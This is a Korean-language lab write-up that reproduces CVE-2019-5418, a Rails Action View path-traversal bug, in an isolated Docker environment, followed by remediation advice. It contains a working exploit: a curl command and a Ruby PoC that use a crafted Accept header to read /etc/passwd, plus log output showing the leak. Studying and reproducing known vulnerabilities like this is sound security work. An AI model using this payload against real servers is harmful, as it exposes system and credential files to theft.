

# CVE-2019-5418 | Ruby on Rails 임의 파일 읽기

## 취약점 요약

CVE-2019-5418은 Ruby on Rails Action View의 파일 내용 노출 취약점이다. 애플리케이션이 `render file:`로 파일을 렌더링할 때 공격자가 조작한 `Accept` 헤더를 보내면 경로 탐색이 발생하여 서버가 읽을 수 있는 임의 파일의 내용이 응답에 포함될 수 있다.

- 대상 구성 요소: Ruby on Rails Action View
- 실습 버전: Rails 5.2.2
- 패치 버전: Rails 5.2.2.1 이상
- CWE: CWE-22, Path Traversal
- CVSS v3.1: 7.5 High (`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`)

공격에는 인증이나 사용자 상호작용이 필요하지 않다. 이 실습에서는 컨테이너의 `/etc/passwd`를 읽어 기밀성 영향을 확인한다.

## 환경 구성

| 항목 | 값 |
| --- | --- |
| 대상 OS | Linux 컨테이너 (`linux/amd64`) |
| Ruby | 2.6.10 |
| Rails Railties / Action View | 5.2.2 / 5.2.2 |
| 노출 주소 | `127.0.0.1:3000` |
| 정상 엔드포인트 | `GET /robots` |

취약 환경은 외부의 완성된 취약 이미지를 사용하지 않는다. `Dockerfile`이 공식 Ruby 베이스 이미지 위에 취약 구성 요소인 Action View 5.2.2와 최소 Rails 애플리케이션을 직접 설치한다. 이 실습에 필요하지 않은 데이터베이스, 메일 및 파일 업로드 구성 요소는 포함하지 않는다.

## 취약 조건

다음 조건을 모두 만족할 때 취약점이 재현된다.

1. Rails가 취약 버전인 5.2.2로 실행된다.
2. 컨트롤러가 사용자 요청에 응답하면서 `render file:`을 사용한다.
3. 공격자가 HTTP `Accept` 헤더를 조작할 수 있다.
4. Rails 프로세스가 대상 파일을 읽을 권한을 가진다.

이 환경의 `FilesController#robots`는 정상적으로 `public/robots.txt`를 렌더링하지만, 취약한 Action View가 `Accept` 헤더를 처리하는 과정에서 공격자가 지정한 경로까지 탐색한다.

## 실행 및 재현

> 의도적으로 취약한 환경이다. 인터넷에 공개하지 말고 로컬 또는 격리된 실습 네트워크에서만 실행한다.

환경 빌드, 서비스 시작, PoC 실행을 한 번에 수행한다.

```bash
docker compose up --build --abort-on-container-exit --exit-code-from poc
```

성공하면 PoC 출력에 `/etc/passwd` 내용과 다음 문구가 표시된다.

```text
[+] CVE-2019-5418 reproduced: /etc/passwd was disclosed.
```

백그라운드에서 환경을 유지하고 PoC를 반복 실행하려면 다음 명령을 사용한다.

```bash
docker compose up -d --build web
docker compose run --rm poc
```

동일한 요청을 `curl`로 직접 확인할 수도 있다.

```bash
curl --path-as-is \
  -H 'Accept: ../../../../../../../../etc/passwd{{' \
  http://127.0.0.1:3000/robots
```

실습이 끝나면 컨테이너, 네트워크 및 익명 볼륨을 정리한다.

```bash
docker compose down -v --remove-orphans
```

## PoC 코드

[`poc.rb`](./poc.rb)는 조작된 `Accept` 헤더로 `/robots`를 요청하고, 응답에 `/etc/passwd`의 UID/GID 0 계정 표식이 있는지 검사한다. 표식이 확인되면 종료 코드 `0`, 실패하면 종료 코드 `1`을 반환하므로 재현 여부를 자동으로 판단할 수 있다.

핵심 요청은 다음과 같다.

```ruby
request = Net::HTTP::Get.new(uri)
request["Accept"] = "../../../../../../../../etc/passwd{{"
```

## 실행 결과

다음 환경에서 Docker 이미지를 새로 빌드한 뒤 PoC 재현을 확인했다.

| 항목 | 검증 환경 |
| --- | --- |
| 검증 일자 | 2026-07-12 |
| 호스트 OS | Ubuntu 24.04 LTS (`amd64`) |
| Docker | 29.1.3 |
| Docker Compose | 2.40.3 |
| 컨테이너 Ruby | 2.6.10 (`x86_64-linux`) |

헬스체크는 정상 요청으로 `public/robots.txt`를 읽어 HTTP 200 응답을 확인했다. 이후 PoC 컨테이너가 조작된 `Accept` 헤더를 전송하자 Rails는 요청 형식을 경로로 해석하여 `/etc/passwd`를 렌더링했다.

```text
web-1  | Processing by FilesController#robots as ../../../../../../../../etc/passwd{{
web-1  |   Rendering /etc/passwd
web-1  |   Rendered /etc/passwd (0.1ms)
web-1  | Completed 200 OK

poc-1  | root:x:0:0:root:/root:/bin/bash
poc-1  | [+] CVE-2019-5418 reproduced: /etc/passwd was disclosed.
poc-1 exited with code 0
```



`--abort-on-container-exit` 옵션은 PoC 종료 직후 실행 중인 웹 서버도 정지시킨다. 따라서 뒤이어 출력되는 WEBrick의 `SIGTERM`과 웹 컨테이너 종료 메시지는 오류가 아니라 실습 환경을 자동으로 종료하는 정상 동작이다. 최종 성공 여부는 `--exit-code-from poc`에 따라 PoC 컨테이너의 종료 코드 `0`으로 판단한다.

## 대응 방안

1. Rails 5.2 계열은 5.2.2.1 이상으로 업그레이드한다. 다른 영향 버전도 각 계열의 수정 릴리스 이상으로 업데이트한다.
2. 사용자 입력의 영향을 받는 요청에서 `render file:` 사용을 피하고, 허용된 템플릿 또는 파일만 명시적으로 선택한다.
3. 애플리케이션 프로세스를 최소 권한 계정으로 실행하여 노출 가능한 파일 범위를 줄인다.
4. 비정상적인 `Accept` 헤더와 경로 탐색 문자열을 탐지하고 차단하되, 이를 패치의 대체 수단으로 사용하지 않는다.

## 참고 자료

- [NVD: CVE-2019-5418](https://nvd.nist.gov/vuln/detail/CVE-2019-5418)
- [Rails Security Discussion](https://groups.google.com/g/rubyonrails-security/c/pFRKI96Sm8Q)
- [Vulhub: rails/CVE-2019-5418](https://github.com/vulhub/vulhub/tree/master/rails/CVE-2019-5418)
